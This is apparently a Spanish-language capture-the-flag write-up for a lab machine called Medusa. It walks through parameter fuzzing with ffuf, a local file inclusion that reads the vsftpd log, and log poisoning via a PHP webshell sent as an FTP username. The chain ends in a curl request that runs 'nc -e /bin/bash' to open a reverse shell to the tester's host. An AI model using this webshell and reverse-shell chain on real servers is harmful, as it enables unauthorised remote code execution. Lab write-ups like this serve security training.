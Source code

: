```
$ ffuf -u "http://dev.medusa.hmv/files/system.php?FUZZ=/etc/passwd" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -fs 0 
[...]
view                    [Status: 200, Size: 1452, Words: 14, Lines: 28, Duration: 3ms]
[...]
```

Parámetro encontrado!! Ahora a ver que archivos puedo leer.

```
$ ffuf -u "http://dev.medusa.hmv/files/system.php?view=FUZZ" -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -fs 0
[...]
/var/log/vsftpd.log     [Status: 200, Size: 156, Words: 23, Lines: 3, Duration: 2ms]
[...]
```

vsftpd.log?? Interesante...

## Explotación

Teniendo acceso a un archivo de log como "vsftpd.log" y una vulnerabilidad LFI en la página web, es posible realizar un ataque de "Log Poisoning" al servicio ftp.

Para ello intento logearme en el servicio, pero en el nombre de usuario introduzco una "webshell".

```
$ ftp 192.168.1.87
Connected to 192.168.1.87.
220 (vsFTPd 3.0.3)
Name (192.168.1.87:kali): <?php system($_GET['cmd']);?>
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
ftp> exit
221 Goodbye.
```

Una vez enviado, puedo usar curl para ejecutar comandos en el servidor. Ahora solo queda crear un listener en la máquina local y ejecutar una reverse shell con "nc".

```
$ curl "http://dev.medusa.hmv/files/system.php?view=/var/log/vsftpd.log&cmd=nc+-e+/bin/bash+192.168.1.86+1234"
```

```
$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.1.86] from (UNKNOWN) [192.168.1.87] 46670
whoami
www-data
:)
```

